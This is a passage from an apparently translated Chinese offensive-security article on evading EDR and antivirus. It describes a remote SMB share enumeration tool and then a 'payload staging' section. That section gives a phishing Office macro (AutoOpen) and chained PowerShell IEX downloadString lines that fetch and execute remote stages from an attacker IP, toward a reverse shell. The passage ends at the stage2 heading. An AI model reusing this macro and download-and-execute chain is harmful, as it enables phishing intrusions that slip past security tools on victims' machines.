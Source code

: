 该工具利用 Win32 API 中的 NetShareEnum 函数远程检索从任何输入端点提供的共享。默认情况下，它会尝试特权 SHARE_INFO_502
访问级别，显示一些额外信息，如磁盘路径、连接数等。如果失败，它会回退到访问级别
SHARE_INFO_1，它仅显示资源名称但任何非特权用户都可以枚举它(除非特定的ACL阻止它)。请随意使用此处提供的工具。  

  * 

    
    
    https://github.com/florylsk/RemoteShareEnum

现在，我们可以像下面这样使用它：  
![](https://gitee.com/fuli009/images/raw/master/public/20230621095501.png)  
当然，定制工具可能是一项非常耗时的任务，并且需要有非常深入的 Windows
内部知识，但它有可能击败本文中介绍的所有其他方法。因此，如果其他一切方法都失败了，应该考虑到这一点。也就是说，我仍然认为它更适合 EDR
规避，因为您可以控制并包括您自己选择的 API 调用、断点、顺序、垃圾数据/指令、混淆等。  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230621095455.png)

 **08  Payload 分段（Staging）**

  
将有效载荷分阶段执行不是新技术，攻击者通常使用它来传播恶意软件，从而逃避初始静态分析。这是因为真正的恶意负载将在稍后阶段被检索和执行，此时静态分析可能没有机会发挥作用。  
  
对于此 PoC，我将展示一种非常简单但有效的方法来分阶段执行反向 shell Payload，例如，使用以下宏创建恶意Office文件:  

    
          *   *   * 
    
    
    
    Sub AutoOpen()Set shell_object = CreateObject("WScript.Shell")shell_object.Exec ("powershell -c IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/stage1.ps1')")End Sub

  
当然，这不会被 AV 静态检测到，因为它只是在执行一个看似良性的命令。  
由于我没有安装 Office，我将通过在 PowerShell 脚本中手动执行上述命令来模拟网络钓鱼过程。  
最后，本节的 PoC 如下：  
stage0.txt（这将是在网络钓鱼宏中执行的命令）

    
    
      
    
    
      * 
    
    
    
    IEX(New-Object Net.WebClient).downloadString("http://172.31.17.142:8080/stage1.txt")

stage1.txt  

    
    
      
    
    
      *   * 
    
    
    
    IEX(New-Object Net.WebClient).downloadString("http://172.31.17.142:8080/ref.txt")IEX(New-Object Net.WebClient).downloadString("http://172.31.17.142:8080/stage2.txt")

  
stage2.txt  
  